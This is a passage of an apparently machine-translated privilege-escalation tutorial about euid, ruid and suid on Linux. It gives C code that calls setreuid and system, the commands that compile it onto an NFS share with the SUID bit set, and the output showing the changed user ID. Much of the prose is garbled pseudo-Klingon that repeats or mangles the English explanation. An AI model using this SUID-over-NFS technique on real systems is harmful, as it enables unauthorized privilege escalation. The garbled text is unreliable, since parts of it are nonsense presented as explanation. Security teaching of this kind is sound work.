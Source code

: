 #### Case 2: setreuid jatlh system jatlh
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
setreuid(1000, 1000);
system("id");
return 0;
}
```
**QapHa'wI' je Permissions:**

When a program is compiled, it is assigned certain permissions that determine what actions it can perform on the system. These permissions are associated with the program's executable file and are set using the chmod command.

**QapHa'wI' je Permissions:**

DaH jatlhlaHbe'chugh, program 'e' vItlhutlhlaHchugh, 'e' vItlhutlhlaHchugh permissions vItlhutlhlaHchugh, 'e' vItlhutlhlaHchugh vay' executable file 'ej chmod command vItlhutlhlaHchugh.
```bash
oxdf@hacky$ gcc b.c -o /mnt/nfsshare/b; chmod 4755 /mnt/nfsshare/b
```
**Qap**:

The **euid** (Effective User ID), **ruid** (Real User ID), and **suid** (Saved User ID) are important concepts in Linux that relate to user privileges and privilege escalation.

The **euid** represents the effective user ID of a process, which determines the permissions and privileges that the process has. It is used to determine the access rights of the process when interacting with files, directories, and other system resources.

The **ruid** represents the real user ID of a process, which is the user ID of the user who executed the process. It is used to determine the initial access rights of the process.

The **suid** represents the saved user ID of a process, which is used to temporarily switch the effective user ID to the real user ID. This is commonly used when a process needs to perform certain actions with elevated privileges, but then needs to revert back to its original privileges.

Understanding the relationship between these IDs is crucial for privilege escalation techniques. By manipulating the euid, ruid, and suid values, an attacker can potentially gain elevated privileges and perform unauthorized actions on a system.

It is important to note that privilege escalation techniques should only be used for ethical purposes, such as penetration testing or securing systems against potential attacks. Unauthorized use of these techniques is illegal and can result in severe consequences.

To learn more about privilege escalation techniques and how to defend against them, refer to the relevant resources and documentation available.
```bash
bash-4.2$ $ ./b
uid=1000(frank) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
**Qap:**
